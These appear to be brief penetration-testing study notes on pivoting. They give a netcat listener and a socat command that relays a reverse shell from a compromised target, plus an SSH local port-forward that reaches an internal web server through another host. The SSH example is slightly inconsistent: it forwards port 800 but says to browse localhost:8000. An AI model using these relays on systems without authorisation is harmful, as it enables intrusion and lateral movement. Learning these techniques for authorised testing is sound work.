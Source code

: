 Socat
- Reverse Shell Relay
  - localhost
    - `nc -lvnp 443` this needs started first
  - target
    - `./socat tcp-l:8000 tcp:localip:443 &`
  - 8000 is the port we want the traffic to relay to and 443 is the port were connecting to
 
SSH
  -  If want to connect to a webpage that dont have access to but have access to another comp on its network
  - `ssh -L 800:10.10.10.10:80 user@10.10.10.5 -fN`
  - navigate to `localhost:8000`
    - Example assumes SSH access to 10.10.10.5 and webserver on 10.10.10.10
